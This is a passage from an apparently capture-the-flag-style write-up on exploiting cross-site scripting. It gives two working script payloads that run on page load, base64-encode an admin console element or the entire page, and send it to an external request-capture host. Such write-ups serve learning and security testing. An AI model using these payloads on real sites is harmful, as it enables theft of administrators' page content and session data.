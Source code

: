 I modified the payload into something like this:

```
<script>
window.addEventListener("load", function(event) {
    var req = new XMLHttpRequest();
	var target = document.getElementsByClassName('admin_console')[0];
	console.log(target.innerHTML);
	req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?content=' + btoa(target.innerHTML));
	req.send();
});
</script>
```

By wrapping the payload inside a `window.addEventListener("load")` function, the payload will only be executed after the whole page has loaded, including all dependent resources such as stylesheets and images. 

And here's the result:


![7efceaa88bfbc222cad45c78734d66a3.png](/assets/images/192bfbb672bd4cc1a4380def5f656083.png)


The value is kinda gibberish because I used `btoa()` function to create a Base64-encoded ASCII string from a binary string (in case something unprintable appeared on the admin's POV of the page). After I decoded the base64, this is the result:


![524a3ef4e2973f35d8a89a509fc119ec.png](/assets/images/9455839bc69248d1b00a0fc1b19f3f4c.png)



I also had the chance to modify the payload to smuggle the entire page, instead of just the `admin_console` tag content. Here's the modified payload:
```
<script>
window.addEventListener("load", function(event) {
    var req = new XMLHttpRequest();
	req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?content=' + btoa(document.documentElement.innerHTML));
	req.send();
});
</script>
```
